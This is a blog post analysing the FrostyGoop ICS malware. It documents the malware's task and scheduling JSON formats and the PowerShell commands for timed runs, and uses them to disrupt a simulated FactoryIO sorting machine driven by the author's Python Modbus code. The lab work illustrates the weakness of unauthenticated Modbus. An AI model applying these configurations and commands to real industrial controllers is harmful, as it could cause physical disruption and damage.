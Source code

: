 ```yaml
---
title: "Functional Analysis of FrostyGoop ICS Malware pt. 2/2"
description: Playing around with FrostyGoop
draft: false
date: 2024-07-28T09:00:00+01:00
publishDate: 2024-07-28T09:00:00+01:00
tags: ["cyber security", "malware", "analysis", "functional", "stuxnet", "havex", "industroyer", "reverse engineering", "ICS", "OT", "FactoryIO", "hacking", "frostygoop"]
---
```


Taking FrostyGoop to the next level and attacking a simulated sorting machine.

## Introduction

While analysing the FrostyGoop ICS malware in my previous [blogpost](https://www.remyjaspers.com/blog/frostygoop) I had way too much fun with analyzing the Modbus TCP protocol and its security (or lack thereof). Not being able to use the timing and automating bit of the malware haunted me and I wanted to fully understand it. Shoutout to Nozomi for their awesome [writeup]((https://www.nozominetworks.com/blog/protecting-against-frostygoop-bustleberm-malware)) of the malware. They were able to reverse engineer the task_test.json file which I was still figuring out. 

Armed with this knowledge, I wanted to take this malware and experimentation with unauthenticated Modbus to the next level. I experimented some more with the timing commands until I got them to work. 

After I show some more details on how to run the commands to time execution of FrostyGoop, I will build a small lab to have something more interesting to look at than the ModRssim2 table of register values :yawning_face:.  After [digging](https://rodrigocantera.com/en/modbus-tcp-packet-injection-with-scapy/) around, I found this awesome [industrial conveyor belt color sorter ](https://community.factoryio.com/t/sort-by-color-conveyor-system/222) scenario in a ICS simulation software called [FactoryIO](https://factoryio.com/). FactoryIO allows to interact with it using software from many ICS vendors (Siemens, Rockwell etc. ) This looks like the perfect candidate for a more realistic attack scenario! Before we attack this sorting station however, let's have a brief look at how FrostyGoop's timed execution works.

![img/sorting_machine.jpg](img/sorting_machine.jpg)

## FrostyGoop Timing

As the folks from Nozomi showed, FrostyGoop can be run with a tasklist JSON file that lays out the steps to automatically attack Modbus appliances. This greatly helps in foregoing the repetitive task of providing command line arguments for each Modbus message to be sent. This file assumes the following format:

```JSON
{
    "Iplist" : ["127.0.0.1"],
    "Tasks" : [
        {
            "Code" : 16,
            "Address" : 0,
            "Value" : 8000,
            "Count" : 3
        }
    ]
   
}
```

After playing around with the sample for a bit longer I found out how to use the *StartTime*, *PeriodTime*, *WaitTime* and *IntervalTime* variables. We can provide these in a *separate* JSON file so FrostyGoop's execution can be delayed, repeated, or scheduled. Unfortunately I was only able to set the StartTime in hours, but I found no way to make it work with a UTC date/time string. This "cycle info" JSON file has the following format:

```JSON
{
 "StartTime" : "13:20:00",
 "IntervalTime" :  "1ms",
 "PeriodTime" : "1ms",
 "WorkTime" : "20s"
} 

```

| Command | Explanation |
|-|-|
|StartTime | UTC time string to schedule execution (HH:MM:SS)|
|IntervalTime | Time between executions |
|PeriodTime | Not sure about this one|
| WorkTime | Length of time for the malware to repeat execution (20 seconds)|

To execute the malware with the timing info, the following command can be used:

```Powershell
.\mb.exe -cycle .\cycle.json -input-task .\task_test.json
```

You can also just execute this malware in a Powershell loop, but this provides less flexibility:

```Powershell
While (1) { ./mb.exe -input-task ./task_test.json; }
```
## Driving the sorting station

The project files I found on the FactoryIO community were great but only provided Rockwell PLC driver code for the project and a proprietary ControlIO driver. Neither of them suited my purposes very well as I don't want to learn an entire software stack just to prove a point :grinning_face: . So I decided to cook something up myself. 

Before we can interact with FactoryIO, we have to configure it as a Modbus TCP/IP server, with the following settings. The other settings are left to their defaults, but it is important to set the Slave ID to 254 (because FrostyGoop for some reason sets this as the default?). Other settings are left to their defaults:

![img/factoryio_modbus_config.png](img/factoryio_modbus_config.png)
 
FactoryIO shows a nice overview of all the registers that can be read and/or written to. By connecting the various sensors and actuators to the right registers, we are able to send Modbus commands to drive them. I configured the sensors and actuators as follows:

![img/modbus_register_overview.png](img/modbus_register_overview.png)

I decided to just write a small driver in Python using the [pyModbus](https://pypi.org/project/pymodbus/) library. This code is probably devoid of any decent PLC programming practices (I have zero experience with that stuff). Regardless, it works for our purposes. It reads the Modbus registers that store the sensor (vision, laser) values and drives the actuators (load pushers, conveyor belt etc.) based on those values, and sorts the conveyed parts in their respective buckets. 

```Python
from pymodbus.client import ModbusTcpClient
from pymodbus.exceptions import ModbusException
import time

SLAVE = 254

c = ModbusTcpClient('127.0.0.1')   # Create client object
c.connect()                        # connect to device, reconnect automatically

# Reset 
c.write_coil(0, 1, SLAVE); # emitter start
c.write_coil(1, 0, SLAVE); # load pusher reset

c.write_coil(2, 0, SLAVE); # pusher 1 reset
c.write_coil(3, 0, SLAVE); # pusher 2 reset
c.write_coil(4, 0, SLAVE); # pusher 3 reset

c.write_register(7, 0, SLAVE); #reset belt speed
c.write_register(14, 0, SLAVE); # conveyor belt off

while c.connected:

        part_ready = c.read_discrete_inputs(0, 1, SLAVE).bits[0];
        part_pres_1 = c.read_discrete_inputs(1, 1, SLAVE).bits[0];
        part_pres_2 = c.read_discrete_inputs(2, 1, SLAVE).bits[0];
        part_pres_3 = c.read_discrete_inputs(3, 1, SLAVE).bits[0];
        
        load_pusher_adv = c.read_discrete_inputs(4, 1, SLAVE).bits[0];
        load_pusher_ret = c.read_discrete_inputs(5, 1, SLAVE).bits[0];

        metal_bin = c.read_discrete_inputs(5, 1, SLAVE).bits[0];
        blue_bin = c.read_discrete_inputs(6, 1, SLAVE).bits[0];
        green_bin = c.read_discrete_inputs(7, 1, SLAVE).bits[0]
        reject_bin = c.read_discrete_inputs(8, 1, SLAVE).bits[0];

        metal_detect = c.read_input_registers(2, 1, SLAVE).registers[0];
        blue_detect = c.read_input_registers(1, 1, SLAVE).registers[0];
        green_detect = c.read_input_registers(0, 1, SLAVE).registers[0];
        
        metal_retract = c.read_input_registers(5, 1, SLAVE).registers[0];
        blue_retract = c.read_input_registers(4, 1, SLAVE).registers[0];
        green_retract = c.read_input_registers(3, 1, SLAVE).registers[0];

        belt_speed = c.read_input_registers(7, 1, SLAVE).registers[0];
        conv_off = c.read_discrete_inputs(14, 1, SLAVE).bits[0];
        
        if conv_off:
                c.write_register(7, 0, SLAVE); # Reset belt speed
        else:
                c.write_register(7, belt_speed, SLAVE); # Set belt speed based on knob
                
        if part_pres_1:
                c.write_coil(0, 0, SLAVE); # Emitter disable
        else:
                c.write_coil(0, 1, SLAVE); # Emitter enable

        if not part_ready and load_pusher_ret:
                c.write_coil(1, 1, SLAVE); # Load pusher adv
       
        if load_pusher_adv:
                c.write_coil(1, 0, SLAVE); # Load pusher retract
    
        if metal_detect == 9 and part_pres_3:
                c.write_register(2, 0x7FFF, SLAVE); # Pusher metal adv
        else:
                c.write_register(2, 0x8000, SLAVE); # Pusher metal retract
        
        if blue_detect == 2 and part_pres_2:
                c.write_register(1, 0x7FFF, SLAVE); # Pusher blue adv
        else:
                c.write_register(1, 0x8000, SLAVE); # Pusher blue retract
        
        if green_detect == 5 and part_pres_1:
                c.write_register(0, 0x7FFF, SLAVE); # Pusher green adv
        else:
                c.write_register(0, 0x8000, SLAVE); # Pusher green retract
        
        time.sleep(0.1);
```

Under normal operation, the color sorter works as intended, putting the metal, blue and green lids, and the small paper boxes in their respective bucket (sped up 4x for your viewing pleasure). Warning: please have some patience, the GIFs below may take a while to load. If you don't see anything yet, please refresh the page. 

![Normal Operation](img/normal_operation.gif)

Let's attack this sorting machine and see what happens. 

## Attacking the sorting station with FrostyGoop

Using the aforementioned task and cycle info JSON files, we run FrostyGoop to target the sorting machine. Twenty seconds of sending crafted Modbus messages is all it takes to throw the sorting machine into disarray:

![Attacked](img/attacked_operation.gif)

## Conclusion

This hopefully reinforces the point that using unauthenticated Modbus TCP is a *bad* idea. Even rather unsophisticated malware like FrostyGoop can do real damage if deployed under the right circumstances. 

Thanks for reading until the end. If you have any questions or suggestions feel free to drop me a message on Linkedin or Xitter (@st0yky).